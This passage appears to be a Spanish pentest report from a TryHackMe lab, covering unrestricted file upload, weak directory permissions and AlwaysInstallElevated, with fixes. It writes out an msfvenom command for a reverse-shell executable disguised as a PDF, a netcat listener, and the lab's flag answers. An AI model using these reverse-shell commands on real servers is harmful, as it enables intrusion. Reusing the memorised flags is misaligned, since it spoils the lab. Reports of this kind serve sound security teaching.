 Permisos de Directorios Mal Configurados

Nivel de Riesgo: Medio

Impacto: Los permisos de archivo inseguros pueden permitir a los atacantes leer, escribir o ejecutar archivos confidenciales.

Recomendación: Auditar periódicamente los permisos de directorios y archivos, especialmente en directorios críticos para el sistema como C:\Archivos de programa y C:\Windows. Asegurarse de que solo los usuarios autorizados tengan permisos de escritura o ejecución.

Descripción de vulnerabilidades
Vulnerabilidad 1: Carga de archivos sin restricciones

Calificación de riesgo: Alta
Valor de la bandera: THM{884a8fcd-7d9d-429c-97c2-a456c304206e}

Descripción:

Se identificó una vulnerabilidad de carga de archivos sin restricciones en una aplicación personalizada alojada en el sistema objetivo (https://10.200.150.151/). La aplicación permite a los usuarios cargar archivos sin validar los tipos de archivo, lo que permite la carga de archivos arbitrarios (incluido código ejecutable). Esto se explota comúnmente para cargar scripts maliciosos, como shells inversos, que pueden ejecutarse en el servidor al acceder a ellos.

La vulnerabilidad se descubrió al cargar una carga útil manipulada (es decir, msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.250.1.6 LPORT=1234 -f exe -o 1234.exe.pdf) y escuchar en una sesión netcat (nc -lvnp 1234).

Impacto:
Un atacante podría cargar un archivo malicioso y ejecutar código arbitrario en el servidor, lo que podría comprometer el sistema y obtener acceso a información confidencial. Si no se detecta, esta vulnerabilidad podría comprometer completamente el sistema.

Recomendaciones de solución:

Implemente una validación y desinfección de entrada adecuadas para los archivos cargados. Permita únicamente tipos de archivo conocidos y seguros (por ejemplo, imágenes o PDF).

Utilice una lista blanca de tipos de archivo y realice comprobaciones del lado del servidor para garantizar que los archivos cargados no sean ejecutables.

Asegúrese de que los archivos cargados se almacenen en directorios no ejecutables para evitar su ejecución automática.

Vulnerabilidad 2: Configuración de registro insegura (AlwaysInstallElevated)

Calificación de riesgo: Crítico
Valor de la bandera: THM{6e9a8f94-7e2a-4aa0-adb9-1eaa3e687749}

Descripción:

Se detectó que la configuración de registro AlwaysInstallElevated en Windows estaba habilitada tanto en el registro HKCU (Usuario actual) como en el HKLM (Máquina local). Esto permite que los archivos de instalación MSI se ejecuten con privilegios elevados, independientemente del usuario que los ejecute. Esta configuración incorrecta podría permitir a atacantes con acceso de bajo nivel crear archivos MSI maliciosos y ejecutarlos con privilegios de sistema.

La vulnerabilidad se identificó consultando los valores de registro con el comando reg query, lo que confirmó que la configuración AlwaysInstallElevated estaba establecida en 1 en ambas ubicaciones.
